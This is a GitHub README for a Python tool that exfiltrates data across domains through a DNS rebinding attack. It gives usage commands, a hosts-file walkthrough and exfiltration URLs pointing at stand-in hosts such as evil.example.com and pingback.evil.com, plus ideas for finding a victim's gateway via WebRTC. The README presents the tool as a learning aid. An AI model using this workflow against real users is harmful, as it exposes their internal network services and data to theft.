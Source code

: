 # A DNS rebinding implementation

This tool will exfiltrate data cross-domains using a DNS rebinding
attack, bypassing the browser's same-origin policy.

This is a learning tool; by using it you assume responsiblity for your
actions.

For information on the attack: https://crypto.stanford.edu/dns/dns-rebinding.pdf

## Set-up and Usage

Requirements:

 * Python (2 or 3, doesn't matter)
 * `pip`
 * `virtualenv`

Installation:

    virtualenv venv
    source venv/bin/activate
    pip install -r requirements.txt

Scenario: 

 > You want to retrieve the content of the page `target_page` from a web
 > server which is accessible only to your victim (e.g. a web server in the
 > local area network, a DSL modem/router, etc.). You know the target web
 > server's IP and that it listens on TCP port `8080`. You control the
 > `example.com` domain.

Usage:

    ./evil.py evil.example.com pingback.example.com target_page -p 8080

For help:

    ./evil.py -h

Note: this tool supports HTTP BASIC authentication. Look at the help for
the command-line options.


### Quickstart

This example uses the `/etc/hosts` file in lieu of a DNS server for
simplicity.

 1. Set your `/etc/hosts` file:

        127.0.0.1   evil.example.com
        127.0.0.1   pingback.example.com

 2. (Optional) On a *different* host, run `./target.py 8080 target_page`.
    If you do this, write down the IP of this host and call it 'target
    IP'

 2. Launch the attack:

        ./evil.py evil.example.com pingback.example.com target_page --target-username="admin" --target-password='password' -p 12345

 3. As a "victim", navigate to `http://evil.example.com:8080/evil.html`

 4. The page will try to fetch `/target_page` from `127.0.0.1` and fail.
    This is OK.

 5. Change the DNS record and point it at the target IP. Example `/etc/hosts`:

        10.1.2.3    evil.example.com  # THIS IS YOUR TARGET IP
        127.0.0.1   pingback.example.com

 6. After a short timeout (up to a minute) the evil script will now fetch `target_page` from `10.1.2.3`

 7. When some data has been acquired, the evil script will ping back to
    `http://pingback.example.com:8080/gotstuff`. If you open the
    console, you'll see that the browser is blocking reading the
    response due to CORS and SOP; it's OK, we only needed to know when
    this happens.

 8. Switch the `hosts` file back:

        127.0.0.1   evil.example.com
        127.0.0.1   pingback.example.com

 9. After a short interval the evil script will send the data read from
    `target_page` to
    `http://evil.example.com:8080/exfiltrate?e=<base64-encoded data>`
    and terminate.

 10. The acquired data is saved base64-encoded in `out.txt`. To decode:
     `base64 -d out.txt`


# TODOs

 * Run a DNS server in the script so that the records can be
   programmatically changed without having to edit `/etc/hosts` by hand
 * Try HTTPS
 * Use AWS Route 53 APIs to set DNS records if port 53 is not available
   or don't want to use the local DNS server:
   https://docs.aws.amazon.com/Route53/latest/APIReference/API_ChangeResourceRecordSets.html
 * Test with cookies
 * Test CNAME aliases to alter the `Host:` header when making
   cross-domain requests
 * How low can DNS records TTL be before a browser refreshes?

# Ideas for the future

 * Make it multi-tenant
 * Try websockets
 * Acquire the local IP of the victim via RTC and guess the default gateway: see http://net.ipcalf.com/

In more details:

 1. Victim visits `http://$random.evil.com/evil.html`. That is a DNS
    wildcard and always returns the attacker's IP
 2. The `evil.js` script returns the victim's local IP to
    `http://pingback.evil.com/local_ip?i=192.168.0.23`
 3. The tool switches `$random.evil.com` to e.g. `192.168.0.1` based on
    the local IP of the victim
 4. Attack proceeds as before
 5. When data has been acquired, `evil.js` pings
    `pingback.evil.com/pingback?random=$random`. The tool switches the
    DNS record for `$random.evil.com` is re-set to the attacker's IP
 6. Data is exfiltrated as before

Pros:

 * Multiple attacks at the same time, useful for probing multiple
   services on a network

Cons:

 * Tricky

# Other files

 * `target.py`: simple script to use on another host as PoC.

If you want to use python's HTTP server:

   * `python2 -m SimpleHTTPServer <port>`
   * `python3 -m http.server <port>`

Note: you'll need to create a file in the directory where you run the
PoC so that `GET /secret_file` will return something.
